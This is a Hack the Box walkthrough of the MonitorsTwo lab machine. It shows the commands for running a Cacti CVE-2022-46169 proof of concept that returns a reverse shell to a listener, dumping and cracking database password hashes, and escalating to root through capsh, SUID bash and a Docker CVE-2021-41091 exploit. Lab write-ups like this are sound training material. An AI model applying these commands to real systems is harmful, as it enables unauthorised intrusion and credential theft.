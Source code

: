 +++
author = "Nick"
categories = ["hack the box", "Easy", "Linux"]
date = 2023-09-02T11:00:00.000Z
publishDate = 2023-09-02T11:00:00.000Z
description = " "
summary = ""
draft = false
slug = "hack-the-box-monitorstwo"
tags = ["hack the box", "Easy", "Linux", "Docker", "CVE-2021-41091", "RCE", "mysql", "John", "CVE-2021-41091"]
title = "Hack the Box - monitorstwo"
url = "/hack-the-box-monitorstwo"
thumbnail = "/images/monitorstwo/logo.png"
+++

Welcome back! Today we're going to go through the Hack the Box machine MonitorsTwo. This is listed as an easy Linux machine. So let's see what's in store.

As usual, we start with our standard `Rustscan` of the target. Here are the results:

```
PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    syn-ack nginx 1.18.0 (Ubuntu)
|_http-title: Login to Cacti
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We see that there is a `Cacti` service running on port `80`. This recently [had an `Unauthenticated RCE`](https://www.sonarsource.com/blog/cacti-unauthenticated-remote-code-execution/) disclosed, so I wonder if that's our way in. 

Let's see what's being hosted. Sure enough, when we get to the landing page, we see `cacti` running with the vulnerable version - `1.2.22`. 

![](/images/monitorstwo/mon2.png)

So we grab our PoC from [FredBrave](https://github.com/FredBrave/CVE-2022-46169-CACTI-1.2.22). First we need to setup a `nc` listener. Then we can fire off the script with the supplied parameters and we should get a shell back!

`python3 CVE-2022-46169.py -u http://10.129.228.231 --LHOST=10.10.14.2 --LPORT=6969`

Sure enough, we catch our listener back.

![](/images/monitorstwo/mon22.png)

With a limited shell, we copy of `linpeas` and start some enumeration. We see that we are in a `Docker` container. We also see that we can read `entrypoint.sh` as well as have `capsh` to list other privileges we might be able to abuse. So we look at the `entrypoint.sh` file and see we get a username and password for the `mysql` database.

![](/images/monitorstwo/mon23.png)

So we can connect to this `database`. We need to stabilize the shell in this case.

`/usr/bin/script -qc /bin/bash /dev/null`
`ctrl-z`
`stty raw -echo; fg;`

Now with a stable shell we are able to connect reliably to the `mysql` service. 

`mysql -h db -u root -p`

Once we're in we `show databases;`

![](/images/monitorstwo/mon24.png)

Then we `use cacti;` to select the `database`. Then we `show tables;`. In the tables we see `user_auth`, so we dump it.

![](/images/monitorstwo/mon25.png)

![](/images/monitorstwo/mon26.png)

Now we have `marcus` as a user and his hash. We can run this through `john` and see what comes back.

`john hash --wordlist=/usr/share/wordlists/rockyou.txt`

![](/images/monitorstwo/mon27.png)

Perfect, a password! Let's try to `SSH` into the box with it. We log in and snag our `user.txt` flag.

![](/images/monitorstwo/user.png)

Now we transfer over `linpeas` and let that start digging. After quite a bit of time, of snooping with `pspy` and manual enumeration, we circle back to what `linpeas` had originally shown us:

![](/images/monitorstwo/mon28.png)

We check the `docker` version and see that it's `20.10.5`. Researching this version tells us there is a vulnerability in it - CVE-2021-41091. Some digging finds us a [Poc](https://github.com/UncleJ4ck/CVE-2021-41091). From the repo, we need to do three things. Connect back to the containered instance. Change the `SUID` bit on `bash` then run the `PoC` script on the host. So we connect back to the containered system via our earlier exploit. Now we need to change the `SUID` bit on `Bash`. In this case it's fairly easy, since before we noted that `capsh` was a potential exploitable path. We can use [this GTFObins](https://gtfobins.github.io/gtfobins/capsh/) command to give us that exactly.

Command:
`./capsh --gid=0 --uid=0 --`

![](/images/monitorstwo/mon29.png)

This gives us a `root` shell on the container. We can then give the standard `chmod u+s /bin/bash` to give us that `SUID` bit.

![](/images/monitorstwo/mon30.png)

Step 2, check. Now we upload `exp.sh` on the target as `marcus`. We answer `yes` to the prompt. Then we go to the full vulnerable path and execute `bash -p` to get `root`.

![](/images/monitorstwo/root.png)

There we have it, a root shell with another `root.txt` flag in the bank! 